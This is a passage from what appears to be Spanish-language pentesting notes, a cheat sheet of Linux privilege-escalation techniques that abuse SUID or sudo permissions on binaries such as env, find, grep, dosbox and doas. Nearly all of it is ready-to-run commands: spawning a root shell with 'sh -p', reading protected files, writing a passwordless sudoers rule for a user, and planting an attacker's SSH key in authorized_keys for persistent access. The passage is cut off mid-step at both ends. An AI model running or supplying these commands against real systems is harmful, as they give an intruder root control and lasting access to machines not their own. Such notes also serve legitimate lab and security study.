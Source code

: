 forma de ejecutar el comando.
/usr/bin/env /bin/sh -p

-------------------------------------------------------------------------------

D.-	/usr/bin/ls

si tenemos ese permiso entonces directamente buscamos ver el home de root

/usr/bin/ls /root

-------------------------------------------------------------------------------

E.-	/usr/bin/grep

LFILE=file_to_read
/usr/bin/grep '' $LFILE

-------------------------------------------------------------------------------


F.-	/usr/bin/find

/usr/bin/find . -exec /bin/sh -p \; -quit

-------------------------------------------------------------------------------


G.-	/usr/bin/dosbox

Lo explotamos modificando el etc sudoers de nuestro usuario:

ejemplo usuario ninhack

LFILE='\etc\sudoers.d\ninhack'

LFILE='/etc/sudoers.d/NINHACK'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit

ejcutamos sudo su y listo somos root

-------------------------------------------------------------------------------

H.-	/usr/bin/doas

ver la configuración
hacemos cat /etc/doas.conf

H.1.- ver lo que está permitido hacer
permit nopass steve as ajneya cmd cp

para este caso ( permit nopass steve as ajneya cmd cp ), hacemos:

1.- en kali:
ejecutamos el comando: ssh-keygen -t rsa -b 4096, luego copiamos el contendido de id_rsa.pub que se encuentra en /home/kali/.ssh

2.- en el objetivo:
nos dirijimos a /tmp y hacemos /tmp:

echo "contenido-id_rsa.pub" > authorized_keys

3.- en el objetivo:
mkdir .ssh
